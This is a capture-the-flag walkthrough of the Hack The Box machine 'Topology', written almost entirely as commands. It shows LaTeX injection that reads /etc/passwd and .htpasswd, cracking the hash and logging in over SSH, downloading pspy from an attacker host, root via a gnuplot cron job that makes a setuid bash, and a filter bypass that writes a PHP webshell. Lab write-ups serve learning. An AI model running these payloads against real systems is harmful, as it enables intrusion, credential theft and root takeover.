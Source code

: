 # 🛰️ HTB: Topology

## 🧭 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.217
nmap -p 22,80 -sCV 10.10.11.217
```

### Host Enumeration
```bash
# Add to /etc/hosts
echo "10.10.11.217 topology.htb latex.topology.htb dev.topology.htb stats.topology.htb" | sudo tee -a /etc/hosts
```

### Subdomain Bruteforce
```bash
ffuf -u http://10.10.11.217 -H "Host: FUZZ.topology.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -mc all -ac
```

### Directory Bruteforce
```bash
feroxbuster -u http://10.10.11.217 -x html
```

---

## 🐚 Shell as `vdaisley`

### LaTeX File Read
```latex
$\lstinputlisting{/etc/passwd}$
```

### [Apache vhost + .htpasswd Enumeration](HTTP)
```latex
# View vhost config
$\lstinputlisting{/etc/apache2/sites-enabled/000-default.conf}$

# View .htaccess
$\lstinputlisting{/var/www/dev/.htaccess}$

# View .htpasswd
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

### Hash Cracking
```bash
# Save hash
echo 'vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0' > vdaisley.hash

# Crack with hashcat
hashcat -m 1600 -a 0 vdaisley.hash /opt/rockyou.txt
```

### [SSH](SSH) Access
```bash
sshpass -p 'calculus20' ssh vdaisley@topology.htb
```

---

## ⚙️ Shell as root (via gnuplot cron)

### Gnuplot Cron Observation (with pspy)
```bash
wget http://10.10.14.6/pspy64
chmod +x pspy64
./pspy64
```

### Proof of Concept Payload
```bash
cat > /opt/gnuplot/0xdf.plt << EOF
set print "/dev/shm/0xdf-output"
output = system("id")
print(output)
EOF
```

### Create SetUID Root Shell
```bash
cat > /opt/gnuplot/0xdf.plt << EOF
system("cp /bin/bash /tmp/0xdf")
system("chmod 6777 /tmp/0xdf")
EOF

# Wait a minute, then:
/tmp/0xdf -p
```

---

## 📖 Beyond Root – LaTeX Filter Bypass

### Filter Bypass With `^^`
```latex
# Bypassing filter with \write
$\newwrite\outfile\openout\outfile=cmd.php\^^77rite\outfile{%3C?php system($_GET['cmd']); ?%3E}\closeout\outfile
```

### Trigger Webshell
```bash
curl "http://latex.topology.htb/tempfiles/cmd.php?cmd=id"
```

---

## 🛠️ Fix Broken Stats (Bonus)

### Patch `getdata.sh`
```bash
chattr -i /opt/gnuplot/getdata.sh

# Change grep 'enp' to 'eth' inside getdata.sh
sed -i 's/enp/eth/' /opt/gnuplot/getdata.sh
```

### Fix `networkplot.plt` Source Paths
```bash
# Replace '/var/www/gnuplot' with '/opt/gnuplot' in plot lines
sed -i 's|/var/www/gnuplot|/opt/gnuplot|g' /opt/gnuplot/networkplot.plt
```